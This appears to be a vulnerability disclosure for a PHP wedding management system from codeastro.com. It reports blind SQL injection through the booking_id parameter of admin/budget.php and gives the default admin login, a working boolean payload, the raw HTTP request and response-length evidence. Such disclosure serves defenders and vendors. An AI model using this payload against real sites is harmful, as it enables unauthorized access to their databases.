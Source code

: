 # WeddingManagement System v1.0 by codeastr.com has SQL injection

Author： k0xx

The password for the backend login account is: admin@mail.com/Password@123

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: /Wedding-Management/admin/budget.php?booking_id=

Vulnerability location: /Wedding-Management/admin/budget.php?booking_id=,booking_id

[+] Payload: /Wedding-Management/admin/budget.php?booking_id=31%20and%20length(database())%20=%209&user_id=31 // Leak place ---> booking_id

Current database name: dbwedding,length is 9

```sql
GET /Wedding-Management/admin/budget.php?booking_id=31%20and%20length(database())%20=%209&user_id=31 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 8, Content-Length: 814

![image](https://user-images.githubusercontent.com/54017627/167993955-056cb6e9-5510-41a3-9709-c0305068b841.png)

![image](https://user-images.githubusercontent.com/54017627/167993880-25d999c6-8485-44c2-a797-6925b1165e37.png)

When length (database ()) = 9, Content-Length: 9894

![image](https://user-images.githubusercontent.com/54017627/167993912-5f66c673-bb34-4f4a-9744-b28b0f2924bb.png)

![image](https://user-images.githubusercontent.com/54017627/167993833-cceb8c47-7c3f-4df4-b9e2-65d0303d6e6a.png)
